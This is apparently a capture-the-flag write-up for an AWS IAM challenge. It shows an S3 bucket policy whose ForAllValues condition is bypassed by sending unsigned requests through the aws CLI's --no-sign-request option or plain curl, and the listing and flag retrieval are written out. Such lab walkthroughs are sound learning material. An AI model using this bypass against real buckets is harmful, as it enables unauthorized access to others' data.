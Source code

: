 # Challenge 4

## We learned from our mistakes from the past. Now our bucket only allows access to one specific admin user. Or does it?

## IAM Policy
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```

## Solution

- https://awstip.com/creating-unintentional-ways-to-bypass-aws-iam-policies-when-using-the-forallvalues-operator-3516a7f17ed0
- ForAllValues:StringLike - It also returns true if there are no keys in the request, or if the key values resolve to a null data set, such as an empty string.
- Hence the condition is bypassed.
- The GetObject has an open access, howerver the ListBucket is conditional based on ARN.
- Using --no-sign-request we send an request without an ARN of the current user ( my assunption ). Hence PrincipalArn will not be in the key of the request.

### Method1


``` bash

> aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ 
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
> aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ --no-sign-request
2023-06-07 19:15:43         42 flag-as-admin.txt
2023-06-08 19:20:01      81889 logo-admin.png
```
```bash
> aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt - 
{wiz:principal-arn-is-not-xxxxxxxxxxxx}
```

### Method2 ( Reference : https://iash.dev/posts/the-big-iam-challenge-ctf-walkthrough/ )
1. Create a curl request for the directory listing
```bash
curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321?prefix=files/"
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Name>thebigiamchallenge-admin-storage-abf1321</Name><Prefix>files/</Prefix><Marker></Marker><MaxKeys>1000<
/MaxKeys><IsTruncated>false</IsTruncated><Contents><Key>files/flag-as-admin.txt</Key><LastModified>2023-06-07T19:15:43.000Z</LastModified><ETag>"e365cfa7365164c05d7a9c209c4d
8514"</ETag><Size>42</Size><StorageClass>STANDARD</StorageClass></Contents><Contents><Key>files/logo-admin.png</Key><LastModified>2023-06-08T19:20:01.000Z</LastModified><ETa
g>"c57e95e6d6c138818bf38daac6216356"</ETag><Size>81889</Size><StorageClass>STANDARD</StorageClass></Contents></ListBucketResult>
```
2. Create a curl request for retrieving the flag
```bash
curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt"
```
